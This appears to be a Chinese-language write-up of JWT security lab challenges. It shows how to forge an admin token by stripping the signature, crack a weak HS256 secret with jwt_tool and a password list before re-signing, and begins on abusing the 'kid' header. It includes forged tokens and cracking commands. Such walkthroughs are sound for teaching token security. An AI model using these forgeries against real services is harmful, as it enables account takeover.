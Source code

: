 登录账户得到原始 JWT。

```plaintext
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ 
```

后尝试把签名删除发现没有报错，账户用户名没变化。

```plaintext
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.
```

直接把用户名改成 admin 成功切换为 admin 账户并不验证签名。

```plaintext
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.
```

使用原始 JWT 将用户切换再次确定不检测签名。

```plaintext
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ
```

#### Weak Signature \[Medium\]

登录得到原始 JWT

```plaintext
eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I
```

确认使用 HS256，尝试爆破密钥来改签 `python jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I -C -d worst-passwords-2017-top100-slashdata.txt`，最终得到密钥 `iloveyou`。在工具选择上也可以看看 c-jwt-cracker

可以用 [https://jwt.io/#debugger-io](https://jwt.io/#debugger-io) 输入 `eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.` 填入密钥，或者运行 `python3 jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ. -S hs256 -p "iloveyou"` 得到最终签名

```plaintext
eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ._gDs9V-6by-T2sF5C_VXQn7WPOZ_YkAfg0nx-pzLMQk
```

#### Vulnerable Kid \[Medium Hard\]

登录得到 JWT。

```plaintext
eyJraWQiOiJyc2FfcHJpdmF0ZSIsImFsZyI6IkhTMjU2In0.eyJuYW1lIjoiZ2JiIn0.D9HR7CBMAqMyT3h68JFjdic_y26DIX-C4piUnAwWvpk
```

Header 中有 `"kid": "rsa_private"` ，JWT 中出现多个密钥，[kid（key ID）](https://datatracker.ietf.org/doc/html/rfc7515#section-4.1.4)表示使用哪个密钥来验证签名。通过指定 Server 中已存在的文件路径和内容改签。
